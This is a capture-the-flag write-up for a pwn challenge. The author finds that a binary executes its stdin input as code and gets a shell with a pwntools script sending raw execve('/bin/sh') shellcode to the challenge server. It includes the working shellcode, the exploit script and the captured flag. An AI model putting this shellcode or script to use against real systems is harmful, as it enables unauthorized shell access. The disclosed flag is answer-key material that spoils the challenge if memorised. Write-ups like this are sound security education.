

# tinggal run

## Description

asli serius tinggal run aja

## Solution

I am given an executable file, then i analyze it using ghidra and found a code that could be exploited.

```c
FUN_004010c0(0, local_108, 0x100);
(*(code *)local_108)();
```

The code above shows that the program reads input from stdin and stores it in local_108, then executes it as a function. So i can use pwn to send shellcode to get the flag.

```python
from pwn import *

shellcode = b"\x48\x31\xf6\x48\x31\xd2\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\xb8\x3b\x00\x00\x00\x0f\x05"

p = remote('intersec.hcs-team.com', 10431

) 
p.sendline(shellcode)
p.interactive()
```

After i run this i got the flag: `HCS{sh3llc0de_us1ng_sh3llcraft_4nd_sh3llstorm_40115064-b747-429a-b9e0-d7c220afee33}`


